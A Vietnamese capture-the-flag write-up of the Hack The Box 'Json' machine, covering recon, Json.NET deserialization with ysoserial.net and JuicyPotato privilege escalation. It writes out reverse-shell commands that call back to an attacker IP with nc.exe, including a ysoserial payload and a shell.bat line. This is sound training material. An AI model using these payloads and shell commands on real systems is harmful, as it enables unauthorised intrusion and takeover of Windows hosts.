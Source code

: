 ![image](https://hackmd.io/_uploads/ByZyXxz2A.png)

# Machine info and Comment
## Machine info
[Link](https://app.hackthebox.com/machines/210/information) 

## Comment

# Recon
## nmap
Sử dụng nmap ta, scan được rất nhiều port, trong đó có ftp, http, smb/rpc
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -n -sS 10.10.10.158       
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 11:19 EDT
Nmap scan report for 10.10.10.158
Host is up (0.23s latency).
Not shown: 988 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```
Từ đây, ta sẽ scan tiếp các port này xem có gì để khai thác
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p21,80,135,139,445,49152-49158 -sCV 10.10.10.158
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 11:20 EDT
Nmap scan report for 10.10.10.158
Host is up (0.23s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-title: Json HTB
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-02T15:21:34
|_  start_date: 2024-09-02T08:12:26
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:1a:44 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.67 seconds
```
## Port 80 - http 
Ta được điều hướng đến 1 form login

![image](https://hackmd.io/_uploads/BkG-38XhC.png)

Sau khi thử SQLi cơ bản và một số credential mặc định, thông tin đăng nhập bằng `admin:admin` cho ta chuyển tiếp đến `Dashboard`, tuy nhiên web này lại không có một tính năng nào cả

![image](https://hackmd.io/_uploads/H19I2LmhR.png)

Khi nhìn vào các gói tin bắt đuợc, endpoint `/api/Account` ta thấy session được mã hóa bằng base64. Điều này có thể xảy ra lỗ hổng **deserialize**

![image](https://hackmd.io/_uploads/rJHF-v7nR.png)

Tại `/api/token` ta có thể gửi request đi

![image](https://hackmd.io/_uploads/HyY7MPm2C.png)

## Port 445 - smb
Ta sẽ kiểm tra xem máy chủ này có shared folder nào không
```
┌──(kali㉿kali)-[~]
└─$ smbclient -N -L //10.10.10.158
session setup failed: NT_STATUS_ACCESS_DENIED
```
Lỗi này trả về có nghĩa là không có quyền truy cập

# User flag
## Json.net
Vì đã phát hiện lỗ hổng có thể xảy ra là deserialize. Ta sẽ cần xác định xem nó là lọai gì 

![image](https://hackmd.io/_uploads/ByFaSDmhR.png)

## ysoserial.net
Để khai thác được lỗ hổng này, ta có công cụ **[ysoserial.net](https://github.com/pwntester/ysoserial.net)** để tạo payload và gửi lại request

Để chạy được tool này, ta sẽ sử dụng trên máy Win. Trước tiên ta sẽ thử dùng lệnh ping xem nó có trả lời lại máy tấn công không
```
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp
```
Gen payload và request  

![image](https://hackmd.io/_uploads/HJdkAwmnA.png)

Thấy được nó đã ping trở lại 

![image](https://hackmd.io/_uploads/BJKa6v72C.png)

Bây giờ ta sẽ gen payload tạo reverse shell sau đó dùng `impacket-smbserver` để server nhận được file `nc.exe` để thực thi 

![image](https://hackmd.io/_uploads/BJua-dm2R.png)

```
ysoserial.exe -g ObjectDataProvider -f json.net -c "\\\\10.10.14.93\\home\kali\Downloads\\nc.exe -e cmd.exe 10.10.14.93 1414" -o base64
```
Request với payload ta sẽ nhận được shell

![image](https://hackmd.io/_uploads/HJ58e_XnR.png)

Lấy được user flag
```
c:\Users\userpool\Desktop>type user.txt
type user.txt
bda3433f09ae8326fb*****
```

# Root flag
## whoami /priv
Ta sẽ dùng `whoami /priv` để xem các quyền hiện tại có 

![image](https://hackmd.io/_uploads/SJ9KGO72R.png)

Ở đây ta phát hiện được quyền [SeImpersonate](https://github.com/gtworek/Priv2Admin) đang được **Enable**. Ta có thể dùng các công cụ thuộc [Potato family](https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070) để leo quyền:

- Upload `nc.exe` và [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) vào máy mục tiêu

![image](https://hackmd.io/_uploads/HJXaJFmnR.png)

- Tạo reverse shell để mở port cho máy tấn công truy cập vào
```
c:\tmp>echo c:\tmp\nc.exe 10.10.14.93 1414 -e cmd.exe > shell.bat
echo c:\tmp\nc.exe 10.10.14.93 1414 -e cmd.exe > shell.bat
```
## JuicyPotato
Sau đó chạy JuicyPotato.exe trên máy mục tiêu. [CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter)
```
c:\tmp>juicy.exe -l 443 -p shell.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}

-c {e60687f7-01a1-40aa-86ac-db1cbf673334}: CLSID này đại diện cho một đối tượng COM mà juicy.exe sẽ tương tác để thực hiện tấn công leo thang đặc quyền.
```

![image](https://hackmd.io/_uploads/H18U-YXnR.png)

```
C:\Windows\system32>type C:\Users\superadmin\Desktop\root.txt
type C:\Users\superadmin\Desktop\root.txt
8315dddb833114f4******
```

![image](https://hackmd.io/_uploads/rJQmQtX3C.png)



